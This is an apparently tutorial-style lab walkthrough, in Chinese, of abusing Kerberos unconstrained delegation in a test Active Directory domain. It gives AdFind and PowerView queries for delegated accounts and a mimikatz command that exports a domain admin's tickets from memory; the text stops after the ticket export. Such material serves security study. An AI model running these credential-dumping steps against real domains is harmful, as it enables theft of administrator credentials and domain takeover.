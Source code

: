 域成员名:WIN7-PC 域成员IP：10.10.10.3

域管:administrator 域普通用户:test

* * *

### 设置非约束委派

在DC上`Active Directory用户和计算机`中设置机器账户`WIN7-PC`位非约束委派(也可以设置服务账户)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221123153804.png)

当服务账户和机器账户设置了非约束委派时，`userAccountControl`属性会包含`TRUSTED_FOR_DELEGATION`

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221123153805.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221123153806.png)

可通过AdFind.exe来查询

    
    
    # 查询域中配置非约束委派的机器账户  
    AdFind.exe -b "dc=ccc1,dc=test" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" -dn# 查询域中配置非约束委派的服务账户  
    AdFind.exe -b "dc=ccc1,dc=test" -f "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" -dn  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221123153807.png)

通过查询可以发现DC和刚刚设置的WIN7-PC是配置了非约束性委派的

PowerView查询

    
    
    #查询非约束委派的机器账户  
    Get-NetComputer -Unconstrained -Domain ccc1.test  
    #查询非约束委派的服务账户  
    Get-NetUser -Unconstrained -Domain ccc1.test  
    

### 非约束委派利用

普通域用户是无法访问域控的

![]()

当域管通过WinRM等方式连接到WIN7-PC机器时，WIN7-PC机器的内存中会保留域管的TGT，此TGT可通过mimikatz导出
通过本地管理员运行mimikatz导出票据

    
    
    mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221123153809.png)
